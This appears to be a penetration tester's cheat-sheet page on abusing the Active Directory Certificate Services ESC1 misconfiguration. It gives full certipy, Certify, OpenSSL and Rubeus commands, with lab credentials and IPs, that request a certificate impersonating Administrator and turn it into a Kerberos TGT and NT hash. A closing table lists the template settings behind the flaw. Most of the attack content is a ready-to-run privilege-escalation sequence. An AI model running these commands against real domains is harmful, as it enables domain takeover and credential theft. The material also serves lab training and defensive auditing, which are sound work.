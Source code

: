 # ESC1

> ***Active Directory Certificate Services***

------

Vulernability lies in the possibility to specify an alternate user in the certificate request. If the certificate templates allows including a `subjectAltName` (`SAN`) from another use than from the user making the ceritificate request, we can use any user here.

```bash
# Find vulnerabilities
certipy-ad find -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -vulnerable -stdout

# Showing
[!] Vulnerabilities
      ESC1                              : 'LAB.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication 
```

### ESC1 from Linux

To abuse the ESC1 template we can use certipy to request a Certificate and include a alternate subject. This is done with `req` and `-upn Administrator` (or any other user.&#x20;

```bash
certipy req -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -ca lab-LAB-DC-CA -template ESC1 -upn Administrator
```

**Authenticate with certificate and get a TGT**.

```bash
certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.205.199
```



## ESC1 Abuse from Windows

**Enumeration with Certify.exe**

```powershell
# Certify
.\Certify.exe find /vulnerable

# ADCS Enumeration
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
```

**Convert certificate and get NT hash**

```powershell
# Request wilt alternate SAN
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC1 /altname:administrator@lab.local

# With OpenSSL convert certificate to pfx from cert.pem
.& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Authenticate with certificate
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /nowrap
```

### Concluding

The ESC 1 misconfiguration is specifying an alternate user in the certificate request by alloowing to including a `subjectAltName` (`SAN)` .&#x20;

**What makes it vulnerable to ESC1?**

| Object                        | Value                        |
| ----------------------------- | ---------------------------- |
| Enrollment Rights             | Like: LAB.LOCAL\Domain Users |
| Requires Manager approval     | False                        |
| Authorized Signature Required | 0                            |

> An other group than domain users may have enrollment rights which we could me member of.
>

Request certificate with different UPN, then authenticate with the .pfx file giving a NT hash and a TGT.
